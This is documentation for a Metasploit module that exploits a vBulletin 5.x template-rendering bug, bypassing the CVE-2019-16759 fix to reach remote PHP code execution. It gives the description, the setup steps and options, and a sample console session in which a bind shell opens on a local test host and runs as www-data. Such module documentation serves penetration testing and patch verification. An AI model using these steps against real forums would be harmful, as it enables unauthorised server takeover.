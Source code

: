 ## Vulnerable Application

  [vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
  This module has been tested successfully against vBulletin 5.6.2 running on Ubuntu Linux 19.04

### Description

This module exploits a logic bug within the template rendering code of vBulletin 5.x. The module
uses the vBulletin template rendering functionality to render the 'widget_tabbedcontainer_tab_panel'
template while also providing the 'widget_php' argument which causes the former template to load the
latter bypassing filters originally put in place to address 'CVE-2019-16759'. This also allows the
exploit to reach an eval call with user input allowing the module to achieve PHP remote code execution
on the target. This module has been tested successfully on vBulletin version 5.6.2 on Ubuntu Linux.

## Verification Steps

1. Do: `use exploit/multi/http/vbulletin_widget_template_rce`
2. Do: `set RHOSTS [IP]`
3. Do: `set VHOST [HOSTNAME]`
4. Do: `set LHOST [IP]`
5. Do: `set TARGETURI [PATH]`
6. Do: `set PAYLOAD [PAYLOADNUM]`
7. Do: `run`

## Options

### TARGETURI

The base URI path of vBulletin. **Default: /**

### PHP_CMD

The PHP function to use to execute commands on the target. **Default: shell_exec**

## Scenarios

```
msf6 > use exploit/multi/http/vbulletin_widget_template_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set VHOST vb.local
VHOST => vb.local
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set TARGETURI /
TARGETURI => /
msf6 exploit(multi/http/vbulletin_widget_template_rce) > set PAYLOAD 5
msf6 exploit(multi/http/vbulletin_widget_template_rce) > run

[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending php/bind_perl command payload
[*] Started bind TCP handler against 127.0.0.1:4444
[*] Command shell session 1 opened (0.0.0.0:0 -> 127.0.0.1:4444) at 2020-08-09 06:29:57 -0500

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
